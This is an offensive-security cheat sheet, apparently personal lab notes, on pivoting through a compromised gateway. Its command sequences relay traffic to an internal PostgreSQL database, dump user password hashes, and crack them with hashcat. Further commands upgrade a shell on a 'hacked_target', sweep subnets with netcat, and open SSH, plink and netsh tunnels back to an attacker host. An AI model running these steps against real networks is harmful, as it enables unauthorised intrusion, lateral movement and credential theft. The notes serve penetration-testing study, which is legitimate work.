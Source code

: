 # Tunneling

## Port forwarding

### Socat

| WAN | DMZ | Inside LAN |
|-----|-----|------------|
| Kali | Gateway | DB |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbDeepIn |

Run a Socat tunnel on the gateway to the database:
```
gateway$ socat -ddd TCP-LISTEN:2345,fork TCP:DbHostIP:5432
```
and connect to the DB directly from Kali (and retrieve password hashes):
```
kali$ psql -h GatewayIP -p 2345 -U postgres
> \l
> \c mydb
> select table_schema,table_name from information_schema.tables where table_name like '%user%;
> select * from user_table
> \o hashes.txt
> select t1.id,t1.user_name,t2.password_hash from user_table as t1 inner join credential_table as t2 on t1.id = t2.user_id;
> \o
> \q
```
Crack the hashes:
```
kali$ hashcat -m 12001 hashes.txt /usr/share/wordlists/fasttrack.txt # Atlassian hashcat code: hashcat -h
kali$ vim afterhashcat.txt # copy-paste the lines which have been cracked
kali$ tr -d ' ' hashes.txt | awk -F'|' '(NR >2) {print $2, $17}' > loginpass.txt
kali$ vim loginpass.txt # clean ?
kali$ awk -F' ' '{a[$1]=a[$1]?a[$1]":"$2:$2":"$1;}END{for (i in a) print a[i];}' loginpass.txt afterhashcat.txt | awk -F ':' '$3 {print $1, $3}' > final.txt
```

Notes:
- Confluence config file: `/var/atlassian/application-data/confluence/confluence.cfg.xml`
- Awk tips: https://www.theunixschool.com/2012/06/awk-10-examples-to-group-data-in-csv-or.html

Tunnel for an SSH connection: `socat -ddd TCP-LISTEN:2222,fork TCP:DbHostIp:22`

### Ssh

| WAN | DMZ | Inside LAN - subnet 1 | Inside LAN - subnet 2 |
|-----|-----|------------|------|
| Kali | Gateway | DB | Windows |
| IpAttacker | IpDmzOut - IpDmzIn | IpDbOut - IpDbIn | IpWindows |

TTY functionalities with Python:
```
hacked_target$ python3 -c 'import pty; pty.spawn("/bin/sh")'
hacked_target$ python3 -c 'import pty; pty.spawn(["env","TERM=xterm-256color","/bin/bash","--rcfile", "/etc/bash.bashrc","-i"])'
```

Netcat port discovery:
```
hacked_target$ for i in $(seq 1 254) ; do nc -zv -w 1 ${subnet}.${i} $Port; done # listen, verbose, timeout 1sec
```

Ssh forward tunnel:
```
IpDmzOut$ ssh -N -L 0.0.0.0:$PortDmzOut:$IpWindows:$PortWindows user@$IpDbOut
Kali$ smbclient -p $PortDmzOut -L //$IpDmzOut/ -U someuser --password=somepass
```

Ssh dynamic tunnel:
```
IpDmzOut$ ssh -N -D 0.0.0.0:$PortDmzOut user@$IpDbOut
Kali$ sudo vi /etc/proxychains4.conf
    socks5 $IpDmzOut $PortDmzOut
Kali$ proxychains smbclient -L //$IpDmzOut/ -U someuser --password=somepass
Kali$ proxychains nmap -vvv -sT --top-ports=20 -Pn $IpDmzOut
```

Ssh reverse tunnel:
```
ssh -N -R localhost:2345:$IpDmzIn:$PortDmzIn user@IpAttacker
```

### Windows

#### Ssh.exe

```
Windows PS> ssh.exe -N -R $ListeningPort user@$IpAttacker
Kali$ ss -lntpu # check
Kali$ vim /etc/proxychains4.conf
    socks5 127.0.0.1 $ListeningPort
Kali$ proxychains mycommand myoptions
```

#### Plink

```
KaliRshell$ cmdprompt> C:\path\to\plink.exe -ssh -l kaliuser -pw somepass -R 127.0.0.1:9833:127.0.0.1:3389 $IpAttacker
KaliRshell$ cmdprompt> KaliNormalShell$ ss -ntplu # check
Kali$ xfreerdp /u:rdp_user /p:rdp_pass /v:127.0.0.1:9833
```

#### Netsh

```
> netsh interface portproxy add v4tov4 listenport=2222 listenaddress=$IpDmzOut connectport=22 connectaddress=$IpDmzIn
> netstat -anp TCP | find "2222"
> netsh interface portproxy show all
> netsh advfirewall firewall add rule name="my_rule_name" protocol=TCP dir=in localip=$IpDmzOut localport=2222 action=allow
$ ssh user@$IpDmzOut -p2222
> netsh advfirewall firewall delete rule name="my_rule_name"
> netsh interface portproxy del v4tov4 listenport=2222 listenaddress=$IpDmzOut
> netsh interface portproxy show all
```



